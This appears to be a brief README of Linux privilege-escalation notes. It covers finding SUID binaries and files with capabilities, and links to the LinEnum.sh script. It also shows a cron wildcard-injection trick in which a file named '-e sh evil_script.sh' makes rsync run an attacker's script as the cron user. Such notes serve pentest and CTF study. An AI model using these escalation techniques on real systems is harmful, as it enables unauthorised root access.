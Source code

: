 



* [Find SUID-bit set files](#suid binary)
* [Find executable with capabilites](#capabilities executable)
* [Exploiting wildcards crons](#wild wildcards)
* [LinEnum.sh](#linenum.sh)





## suid binary

`$ find / -perm -u=s 2>/dev/null`


## Capabilities executable

` find / -type f -print0 2>/dev/null  |  xargs -0 getcap   2>/dev/null`


## Wild Wildcards

When a cronjob is running with a wildcard as * as arguments, it can be exploited:

example:  

	- cron :  

	> $ rsync /backup/* rsync://backup:/src/backup-server/

We can create a file that gonna act as an argument, like:  

	> $ touch -- "/backup/-e sh evil_script.sh"

The final command will be executed as:  

	> $ rsync -e sh evil_script.sh rync://backup:/src/backup-server/   


rync will execute the script as the user who runs the cron :D


## LinEnum.sh

Bash script tool who gives you a entire surface map of the system :D  

- [LinkToLinenum](https://github.com/jcatala/h4ckme/tree/master/enumeration/LinEnum.sh)


